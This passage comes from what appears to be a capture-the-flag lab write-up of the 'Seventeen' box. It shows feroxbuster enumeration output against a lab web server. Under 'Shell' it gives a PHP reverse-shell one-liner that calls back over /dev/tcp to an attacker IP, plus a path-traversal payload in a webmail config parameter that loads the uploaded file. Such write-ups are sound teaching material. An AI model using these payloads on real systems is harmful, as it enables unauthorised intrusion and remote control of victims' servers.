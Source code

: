     

It returns a 403 Forbidden on the folder I know exists ( `/31234`) and a 404
Not Found on the one I don’t think exists (`/31235`). That’s a good sign
that’s the right path, even if I can’t access it directly.

Running `feroxbuster` in this folder finds a `papers` directory!

    
    
    oxdf@hacky$ feroxbuster -u http://oldmanagement.seventeen.htb:8000/oldmanagement/files/31234/
    
     ___  ___  __   __     __      __         __   ___
    |__  |__  |__) |__) | /  `    /  \ \_/ | |  \ |__
    |    |___ |  \ |  \ | \__,    \__/ / \ | |__/ |___
    by Ben "epi" Risher 🤓                 ver: 2.5.0
    ───────────────────────────┬──────────────────────
     🎯  Target Url            │ http://oldmanagement.seventeen.htb:8000/oldmanagement/files/31234/
     🚀  Threads               │ 50
     📖  Wordlist              │ /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt
     👌  Status Codes          │ [200, 204, 301, 302, 307, 308, 401, 403, 405, 500]
     💥  Timeout (secs)        │ 7
     🦡  User-Agent            │ feroxbuster/2.5.0
     🏁  HTTP methods          │ [GET]
     🔃  Recursion Depth       │ 4
     🎉  New Version Available │ https://github.com/epi052/feroxbuster/releases/latest
    ───────────────────────────┴──────────────────────
     🏁  Press [ENTER] to use the Scan Management Menu™
    ──────────────────────────────────────────────────
    301      GET        9l       28w      376c http://oldmanagement.seventeen.htb:8000/oldmanagement/files/31234/papers => http://oldmanagement.seventeen.htb:8000/oldmanagement/files/31234/papers/
    [####################] - 1m     59998/59998   0s      found:1       errors:1      
    [####################] - 58s    29999/29999   511/s   http://oldmanagement.seventeen.htb:8000/oldmanagement/files/31234/ 
    [####################] - 56s    29999/29999   532/s   http://oldmanagement.seventeen.htb:8000/oldmanagement/files/31234/papers
    

#### Shell

Putting that all together, I’ll first upload a simple PHP reverse shell as
`papers.php`:

    
    
    <?php system("bash -c 'bash -i >& /dev/tcp/10.10.14.6/443 0>&1'"); ?>
    

This will put it at `[somepath]/oldmanagement/files/31234/papers.php`. I can
take a guess that `[somepath]` is either `/var/www` or maybe `/var/www/html`
(it’s the latter). So a payload like this works:

    
    
    _plugins_qwerty=../../../../../../../../../var/www/html/oldmanagement/files/31234/papers&_step=2&_product_name=Seventeen+Webmail&submit=UPDATE+CONFIG
    
